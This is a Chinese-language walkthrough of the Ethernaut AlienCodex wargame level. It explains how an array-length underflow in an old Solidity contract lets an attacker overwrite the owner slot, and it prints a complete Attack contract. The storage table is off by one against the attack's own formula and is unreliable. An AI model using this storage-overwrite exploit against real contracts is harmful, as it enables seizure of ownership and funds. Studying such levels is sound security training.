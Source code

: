 # AlienCodeX

## Reference
[AlienCodeX](https://ethernaut.openzeppelin.com/level/19)

[AlienCodeX.sol](https://github.com/yuhuajing/ethernaut-book/blob/main/src/19-AlienCodex/AlienCodex.sol)

## 目标
1. 抢占当前合约的 `Owner`

## 分析
1. 和 [privacy](https://github.com/yuhuajing/ethernaut-book/blob/main/src/12-Privacy/Privacy.md)类似
2. 当前合约不存在 call 或者delegateCall的外部调用，唯一更新的storage参数时 bytes32的非定长数据
3. 当前合约的编译版本为 ^0.5.0,数据存在上下溢出的风险
### 非定长数组存储
1. 动态数组具体数据存储的起始位置为：keccak256(p) ,p 为当前 slot 的 index , slotp内部存储数组size

### Owner
```solidity
    function revise(uint256 i, bytes32 _content) public contacted {
    codex[i] = _content;
}
```
1. 通过指定index更新array数据
2. owner存储在slot0
3. 数据type(uint256).max上溢的值为0
4. 动态数组的更新规则：

| index                                    | slot              |
|------------------------------------------|-------------------|
| 0                                        | keccak256(1) + 1  |
| 1                                        | keccak256(1) + 2  |
| 2                                        | keccak256(1) + 3  |
| ...                                      | ...               |
| type(uint256).max - 1 - keccak256(1)     | type(uint256).max |
| type(uint256).max - 1 - keccak256(1) + 1 | 0                 |

### Attack
```solidity
contract Attack {
    AlienCodex codex;
    constructor(AlienCodex _codex)public {
        codex = _codex;
    }

    function attack() public {
        codex.make_contact();
        codex.retract();
        uint256 index = ((2**256) - 1) - uint256(keccak256(abi.encode(1))) + 1;
        bytes32 txsender = bytes32(uint256(uint160(msg.sender)));
        codex.revise(index, txsender);
    }
}
```
1. 通过计算，在 `index = type(uint256).max - 1 - keccak256(1) + 1` 插入的值会被存储在 `slot0`
2. `call AlienCodex` 合约的 `retract()` 函数，此时数组 `index` 下溢，动态数组的长度初始化为最大
3. 计算目标 `index和owner` 值
4. `call AlienCodex` 合约的 `revise()` 函数，在特定 `index` 插入值，根据动态数组的计算规则，此时会更新 `slot0` 的数据
